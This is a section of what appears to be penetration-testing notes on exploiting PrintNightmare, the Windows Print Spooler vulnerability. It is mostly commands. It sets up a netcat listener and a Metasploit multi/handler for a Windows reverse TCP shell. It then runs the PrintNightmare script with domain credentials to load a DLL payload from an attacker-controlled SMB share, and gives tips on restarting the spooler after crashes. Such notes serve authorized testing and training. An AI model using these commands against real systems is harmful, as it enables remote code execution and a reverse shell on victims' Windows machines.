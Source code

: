 ### Exploit

{{% notice warning %}}
Depending on the dll you use/actions you preform the the spooler services can crashes/hangs. From my experience in these cases you wont be able to run printnightmare a second time if you did not restart the spooler service before hand. A way around this might be to follow the [Outflank advice](https://github.com/outflanknl/PrintNightmare) to use printnightmare to load a DLL that starts a second thread/process with a new DLL that contains the actual RCE/w.e. payload.
{{% /notice %}}

#### Setup a listener

##### Netcat

```bash
nc -nlvp 80
```

##### MSF multi handler

```bash
msfconsole -x "use exploit/multi/handler;\
set payload windows/shell_reverse_tcp;\
set LHOST 172.16.0.137;\
set LPORT 80;\
set ExitOnSession false;\
run -j"
```

#### Run printnightmare

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py  'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

{{% notice warning %}}
From my experience the Spooler services sometimes crashes/hangs and you wont be able to run printnightmare a second time if you don't restart the spooler service. If you don't spawn a new process in the DLL ensure that the first thing you do is restart the spooler service.
{{% /notice %}}

```bash
net stop spooler && net start spooler
```

![](../../../_resources/run_printnightmare.png)
